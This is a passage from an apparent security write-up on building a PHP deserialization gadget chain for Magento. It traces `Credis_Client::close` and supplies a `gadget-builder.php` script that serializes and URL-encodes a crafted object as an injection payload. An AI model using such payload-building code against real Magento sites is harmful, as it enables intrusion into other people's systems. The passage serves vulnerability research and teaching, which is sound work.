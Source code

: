 **`Credis_Client::close`**

```php?start_inline=1
public function close()
{
    $result = TRUE;
    if ($this->connected && ! $this->persistent) {
        try {
            $result = $this->standalone ? fclose($this->redis) : $this->redis->close();
            $this->connected = FALSE;
        } catch (Exception $e) {
            ; // Ignore exceptions on close
        }
    }
    return $result;
}
```

There are a few conditions that need to be met in order for the `Credis_Client` instance it call `close` on its `redis` property.

`$this->closeOnDestruct` needs to be true. We can see that that's the default value, so no changes necessary there.

```php?start_inline=1
/**
 * @var bool
 */
protected $closeOnDestruct = TRUE;
```

Also, `$this->connected` needs to be true. That, we'll need to manually set.

Finally `$this->persistent` needs to be false and `$this->standalone` needs to be true. Again, those are also both the defaults.

We also need to set `$this->redis` to an instance of `Mage_Sales_Model_Order_Payment_Transaction `. Here's the updated `gadget-builder.php`

```php
<?php

class Credis_Client
{
    protected $redis;
    protected $connected;

    public function __construct()
    {
        $this->connected = true;
        $this->redis = new Mage_Sales_Model_Order_Payment_Transaction;
    }
}

class Mage_Sales_Model_Order_Payment_Transaction
{}

echo urlencode(serialize(new Credis_Client));
```
